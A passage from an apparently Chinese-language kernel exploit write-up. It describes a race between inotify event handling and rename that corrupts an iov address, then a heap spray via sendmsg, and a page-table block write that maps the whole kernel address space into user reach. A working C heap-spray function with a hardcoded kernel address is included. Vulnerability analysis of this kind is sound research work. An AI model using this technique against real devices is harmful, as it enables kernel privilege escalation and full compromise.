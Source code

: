 通过 notify_thread 监控文件的 open 动作，这里文件是长文件名。可以理解为 notify_thread 为 Thread1，当监控到 open 文件时，会执行上面所说的 Thread1 的 inotify_handle_event 函数。通过 rename_thread，创建两个线程，一个是 rename 线程，也就是上面说的 Thread 2 线程，可以触发 copy_name。一个是 open 线程，用来触发 notify_thread 的 inotify_handle_event 函数。由于需要多次触发上面的操作，来竞争。所以在每次 copy 到目标文件后，会再次拷贝回原文件，在这两次执行之间通过 sendmsg 实现一次堆喷占位。这里我们看到 rename 线程执行的次数是 1000 次，而 open 线程执行的次数的是 10000 次，这是让他们均匀的竞争，避免 open 执行完后，还有大量的 rename 线程再执行。需要注意一点 open 有时会失败，比如 rename 线程刚把 A 文件名重命名为 B 文件名，而此时 open 打开 A 文件名，会失败，不过不影响我们竞争，总会有成功的时候。  
执行完这步，我们已经将 iov_addr 的地址覆盖成我们想要的内容。那么我们的 iov_addr 被我们改成什么了？覆盖的内容是什么呢？我们接着说。  

2、向内核页表写入 block

前面我们说了，向内核页表写入 block 的目的是在用户态通过 0xffffffc200000000~0xffffffc240000000 访问整个内核地址空间。

内核已有的映射：

虚拟地址                                物理地址

0xffffffc000000000                 0x40000000  

0xffffffc060000000                 0xA0000000

写入 block 后增加的映射：

虚拟地址                                物理地址  

0xffffffc200000000                 0x40000000  

0xffffffc240000000                 0x80000000

```
#define BUFF_SIZE 172
static void fillhole()
{
    char buff[BUFF_SIZE];
    struct msghdr msg = {0};
    struct sockaddr_in addr = {0};
    memset(buff, 0x43, sizeof buff);
    unsigned long * iovec_addr = (unsigned long *)&buff[164];
    *iovec_addr = 0xffffffc000872840;//block写入的内核页表地址
 
    int sockfd = socket(AF_INET, SOCK_DGRAM, 0);
 
 
    addr.sin_addr.s_addr = htonl(INADDR_LOOPBACK);
    addr.sin_family = AF_INET;
    addr.sin_port = htons(6666);
 
    /* This is the data that will overwrite the vulnerable object in the heap */
    msg.msg_control = buff;
 
    /* This is the user controlled size, eventually kmalloc(msg_controllen) will occur */
    msg.msg_controllen = BUFF_SIZE; // should be chdr->cmsg_len but i want to force the size
 
    msg.msg_name = (caddr_t)&addr;
    msg.msg_namelen = sizeof(addr);
 
    /* Heap spray */
    sendmsg(sockfd, &msg, 0);       
}

```
